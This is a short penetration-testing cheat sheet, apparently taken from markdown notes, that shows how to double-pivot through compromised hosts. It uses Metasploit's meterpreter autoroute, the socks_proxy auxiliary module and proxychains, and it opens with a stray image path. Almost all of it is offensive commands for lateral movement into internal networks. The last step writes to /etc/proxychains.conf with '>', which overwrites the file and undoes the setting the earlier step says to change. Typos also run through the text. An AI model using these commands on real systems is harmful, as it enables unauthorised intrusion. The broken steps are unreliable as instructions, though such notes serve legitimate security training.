

Double Pivoting
From the meterpreter shell of the
Second pivot hostmeterpreter> run autoroute -s 8.8.8.0/24
msf> route print
Set a new rule fro the Socks Proxy
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > options
msf auxiliary(server/socks_proxy) > set SRVHOST [attacker_ip_in_network]
msf auxiliary(server/socks_proxy) > set SRVPORT 1081 #not 108o where there is already the first socksproxy rule
msf auxiliary(server/socks_proxy) > set version 4a # we need to use "socks4" in proxychains.conf
#OR
msf auxiliary(server/socks_proxy) > set version 5 # we need to use "socks5" in proxychains.conf
msf auxiliary(server/socks_proxy) > run
uncomment
dynamic_chain setting in /etc/proxychains.conf and comment strict_chain
Set up another proxy on port 1081
root@kali:/# echo "socks4 [attacker_ip_in_network] 1081" > /etc/proxychains.conf
Bibliography:
https://pentest.blog/explore-hidden-networks-with-double-pivoting/https://viperone.gitbook.io/pentest-everything/everything/pivoting-and-portforwarding#double-pivot